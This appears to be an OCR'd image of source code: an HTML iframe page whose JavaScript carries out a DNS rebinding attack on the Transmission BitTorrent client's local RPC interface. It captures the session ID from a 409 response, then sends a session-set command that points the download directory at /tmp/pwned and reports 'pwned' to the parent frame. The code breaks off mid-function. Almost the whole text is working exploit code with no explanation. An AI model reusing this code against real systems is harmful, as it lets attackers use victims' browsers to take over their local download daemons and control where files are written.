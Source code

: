 

 `rebind.domain:9091/transmission/rpc`代码

	<html>
	<title>
	It's iframe_A
	</title>	
	<body>
	Hi It' iframe_A
	
	<script>	
	function sendRpc(){
		xhr = new XMLHttpRequest();
	    xhr.open("POST", "/transmission/rpc", false);
		console.log('iframe_A_POST_rpc');
		if (sessionid) {
	        xhr.setRequestHeader("X-Transmission-Session-Id", sessionid);
	    }
		command = '{"method":"session-set","arguments":{"download-dir":"/tmp/pwned"}}';
		xhr.send(command);
		if (xhr.status == 200) {
	
	        window.parent.postMessage({status: "pwned", response: xhr.responseText}, "*"); 
			console.log('iframe_A_response:' + xhr.responseText);
	    }
	}
	
	 function getdata(){
					console.log("iframe_A_GET rpc");
					var xhr = new XMLHttpRequest();
					xhr.open("GET","http://rebind.domain:9091/transmission/rpc");
					xhr.send();
					xhr.onreadystatechange = function () {  
						if(xhr.readyState == 4){     
							if(xhr.status == 200){      
								console.log('get_public_ip_iframe_A_response: ' + xhr.responseText);//rescontent 
							}  
							if(xhr.status == 400){
								console.log("error");
								parent.postMessage("go on","*");
							}
							if(xhr.status == 409){
								console.log('get_localhost_ip_iframe_A_response: ' + xhr.responseText);//rescontent
								console.log('iframe_A_response_headers: ' + xhr.getAllResponseHeaders());//resheaders  
								sessionid = xhr.getResponseHeader("X-Transmission-Session-Id");
								sendRpc();
							}
							
						}  
					}
	};
	
	 window.addEventListener("message", function( event ) {
				